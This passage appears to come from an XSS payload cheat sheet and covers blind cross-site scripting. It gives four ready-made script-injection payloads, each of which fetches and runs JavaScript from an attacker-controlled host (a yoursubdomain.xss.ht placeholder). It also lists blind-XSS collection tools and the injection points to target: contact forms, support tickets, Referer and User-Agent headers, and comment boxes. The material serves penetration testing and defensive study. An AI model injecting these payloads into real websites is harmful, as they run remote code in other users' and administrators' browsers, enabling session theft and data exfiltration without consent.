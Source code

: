 ```html
        );
      }, 2000);
    };
  </script>
</html>
```

## Blind XSS

### XSS Hunter

Available at [https://xsshunter.com/app](https://xsshunter.com/app)

> XSS Hunter allows you to find all kinds of cross-site scripting
> vulnerabilities, including the often-missed blind XSS. The service works by
> hosting specialized XSS probes which, upon firing, scan the page and send
> information about the vulnerable page to the XSS Hunter service.

```javascript
"><script src=//yoursubdomain.xss.ht></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'https://yoursubdomain.xss.ht\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//yoursubdomain.xss.ht");a.send();</script>

<script>$.getScript("//yoursubdomain.xss.ht")</script>
```

### Other Blind XSS tools

- [sleepy-puppy - Netflix](https://github.com/Netflix-Skunkworks/sleepy-puppy)
- [bXSS - LewisArdern](https://github.com/LewisArdern/bXSS)
- [BlueLotus_XSSReceiver - FiresunCN](https://github.com/firesunCN/BlueLotus_XSSReceiver)
- [ezXSS - ssl](https://github.com/ssl/ezXSS)

### Blind XSS endpoint

- Contact forms
- Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box
  - Administrative Panel

## Mutated XSS

